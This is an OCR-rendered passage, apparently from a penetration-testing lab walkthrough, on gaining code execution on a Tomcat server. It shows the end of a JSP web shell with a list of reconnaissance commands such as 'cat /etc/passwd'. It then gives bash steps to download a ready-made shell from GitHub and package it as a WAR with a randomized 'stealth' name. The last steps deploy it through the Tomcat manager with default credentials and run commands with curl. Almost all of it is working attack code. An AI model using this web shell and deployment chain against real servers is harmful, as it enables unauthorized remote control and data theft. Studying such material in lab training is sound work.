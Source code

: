 ```java
                    
                    String s = null;
                    while ((s = stdInput.readLine()) != null) {
                        out.println(s + "<br>");
                    }
                    
                    while ((s = stdError.readLine()) != null) {
                        out.println("<span style='color:#ff6b6b'>ERROR: " + s + "</span><br>");
                    }
                    
                } catch (Exception e) {
                    out.println("<span style='color:#ff6b6b'>Exception: " + e.getMessage() + "</span>");
                }
                %>
            </div>
        <% } %>
        
        <div style="margin-top: 30px; padding-top: 20px; border-top: 1px solid #eee; color: #666; font-size: 12px;">
            <strong>Common Commands:</strong> id, whoami, uname -a, ps aux, netstat -tulpn, cat /etc/passwd, ls -la
        </div>
    </div>
</BODY>
</HTML>
```

#### WAR File Package Creation
```bash
# Download lightweight JSP shell
wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp

# Create WAR archive with custom name (operational security)
zip -r backup.war cmd.jsp

# Alternative: Create stealth WAR with randomized name
md5_name=$(echo "$(date +%s)$(hostname)" | md5sum | cut -d' ' -f1)
zip -r "${md5_name}.war" cmd.jsp
echo "WAR file created: ${md5_name}.war"

# Verify WAR structure
unzip -l backup.war
```

#### Manager Interface Deployment Process
```bash
# Step 1: Access manager interface
# Navigate to: http://web01.inlanefreight.local:8180/manager/html
# Login with discovered credentials: tomcat:admin

# Step 2: Deploy WAR file via web interface
# - Browse to WAR file upload section
# - Select backup.war file
# - Click "Deploy" button
# - Verify application appears in application list

# Step 3: Access deployed web shell
# Navigate to: http://web01.inlanefreight.local:8180/backup/cmd.jsp
# Execute system commands via web interface

# Command-line verification
curl "http://web01.inlanefreight.local:8180/backup/cmd.jsp?cmd=id"
```